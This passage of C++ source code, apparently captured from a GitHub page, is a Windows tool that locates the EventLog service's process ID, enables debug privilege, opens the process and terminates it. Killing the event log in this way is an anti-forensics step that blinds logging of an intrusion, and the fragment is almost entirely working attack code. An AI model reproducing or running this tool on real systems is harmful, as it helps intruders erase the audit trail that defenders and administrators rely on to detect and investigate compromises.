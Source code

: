 ```
		BOOL ret = EnumServicesStatusEx(scHandle, infoLevel, dwServiceType, dwServiceState, lpServices, cbBufSize, &pcbBytesNeeded, &servicesReturned, lpResumeHandle, pszGroupName);
		cbBufSize = pcbBytesNeeded;
		lpServices = new BYTE[cbBufSize];
		if (NULL == lpServices)
		{
			printf("[!]lpServices = new BYTE[%ld] -> fail(%ld)\n", cbBufSize, GetLastError());
		}
		else
		{
			ret = EnumServicesStatusEx(scHandle, infoLevel, dwServiceType, dwServiceState, lpServices, cbBufSize, &pcbBytesNeeded, &servicesReturned, lpResumeHandle, pszGroupName);
			LPENUM_SERVICE_STATUS_PROCESS lpServiceStatusProcess = (LPENUM_SERVICE_STATUS_PROCESS)lpServices;
			for (DWORD i = 0; i < servicesReturned; i++)
			{
				_strlwr_s(lpServiceStatusProcess[i].lpServiceName, strlen(lpServiceStatusProcess[i].lpServiceName) + 1);
				if (strstr(lpServiceStatusProcess[i].lpServiceName, "eventlog") != 0)
				{
					printf("[+]ServiceName:%s\n", lpServiceStatusProcess[i].lpServiceName);
					printf("[+]PID:%ld\n", lpServiceStatusProcess[i].ServiceStatusProcess.dwProcessId);
					PID = lpServiceStatusProcess[i].ServiceStatusProcess.dwProcessId;
				}
			}
			delete[] lpServices;
		}
		CloseServiceHandle(scHandle);
	}

	return PID;
}

int main(int argc, char *argv[])
{

	DWORD pid = getpid();
	if (pid == 0)
	{
		printf("[!]Get EventLog's PID error\n");
		return -1;
	}

	printf("[+]Try to EnableDebugPrivilege... ");
	if (!EnableDebugPrivilege(TRUE))
	{
		printf("[!]AdjustTokenPrivileges Failed.<%d>\n", GetLastError());
		return -1;
	}
	printf("Done\n");

	printf("[+]Try to OpenProcess... ");
	HANDLE processHandle = OpenProcess(PROCESS_TERMINATE, FALSE, pid);
	if (processHandle == NULL)
	{
		printf("Error\n");
		return -1;
	}
	printf("Done\n");

	printf("[+]Try to TerminateProcess... ");
	BOOL bResult = TerminateProcess(processHandle, 0);
```